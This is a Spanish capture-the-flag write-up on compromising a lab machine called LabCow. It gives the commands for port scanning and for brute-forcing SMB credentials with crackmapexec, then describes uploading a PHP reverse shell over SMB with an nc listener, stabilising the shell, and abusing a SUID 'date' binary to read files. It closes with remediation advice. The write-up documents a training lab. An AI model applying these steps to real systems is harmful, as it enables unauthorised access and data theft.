---

---
---
autor: zhuit8
tipo: writeup
plataforma: whoami-labs
maquina: LabCow
ip: 172.17.0.2
dificultad: Difícil
estado: finalizada

---
# Informe de Seguridad:
# Untitled

## 1. Resumen Ejecutivo
**Puntuación de Riesgo:** Crítico

Se realiza un escaneo inicial en el que se observan varios puertos abiertos, entre ellos puertos de servicio web y servicios `smb`. Como no es posible enumerar directorios, se procede a enumerar el servicio  `smb` de donde se hallan usuario y contraseña. Una vez iniciada la sesión  `smb` se procede a subir un payload para obtener una reverse shell. Finalmente se escalan privilegios por una mala configuración del binario `date`

---
## 3. Fase de Reconocimiento
### Enumeración de Puertos (Nmap)

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2
```

- **Puertos abiertos:** 21, 22, 139, 445, 8080
- **Evidencias:** > [!info] Resultado Nmap > 

### Enumeración Web

Se observa la web en el puerto 8080, se encuentra el directorio uploads



Encontramos el habitual Forbidden en el directorio uploads



- **Tecnologías:** [[Apache]] HTTP server 2.4.41



- **Directorias hallados:**  `/uplodas`.

No se encuntra nada con `dirbaster, gobuster, ffuz` con lo que se procede a enumeración SMB

```bash
enum4linux -a 172.17.0.2
```

Se halla un usuario del servicio SMB



```bash
smbmap -H 172.17.0.2
```



Se realiza fuerza bruta al usuario obtenido:

```bash
crackmapexec smb 172.17.0.2 -u 'smbuser' -p '/usr/share/wordlists/rockyou.txt'
```



Se procede a loggearse con el usuario y contraseña obtenidos

```bash
smbclient -U smbuser //172.17.0.2/public
```



---
## 4. Análisis y Explotación
### Vector de entrada: [[Reverse shell]]
Mediante el servicio SMB se sube una reverse shell
- **Paylod utilizado:** [[php-reverse-shell.php]]
```bash
smb: \> put php-reverse-shell.php 
putting file php-reverse-shell.php as \php-reverse-shell.php (670,8 kB/s) (average 670,8 kB/s)
smb: \>
```

Se configura un listener en el puerto 1234
```bash
nc -nlvp 1234
```

Se obtiene una shell reversa



# Se estabiliza shell

#### All the steps to stabilize your shell

**The first step:**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys.

**Step two is:**

```bash
export TERM=xterm
```

This will give us access to term commands such as clear.


**Finally (and most importantly) we will background the shell using**

```
Ctrl + Z
```

Back in our own terminal we use

```bash
stty raw -echo; fg
```

This does two things: first, it turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

```bash
stty rows 38 columns 116
```


### Post-Explotación
- **usuario obtenido:** `www-data` 
- **Escalada de privilegios:** - Se detectó un binario SUID mal configurado.
```bash
find / -user root -perm /4000 2>/dev/null
```

- Técnica utilizada [[GTFOBins]]



Por una mala configuración del binario date, podemos hacer lectura de ficheros:


### Captura de Flag
`flag:{LABCOW{H4CK1Ng}}`



---
## 5. Recomendaciones y Conclusiones
### Remediación Técnica
1. Restringir el acceso al servicio SMB
2. Retirar los permisos SUDO al binario date

### Conclusión Final
La auditoria demostró riesgo elevado en la máquina debido a una secuencia encadenada de fallos de configuración. El servicio SMB revela información sensible que permitió el acceso inicial. Por otra parte, una configuración permisiva del binario date, permitió la ex-filtración de información.

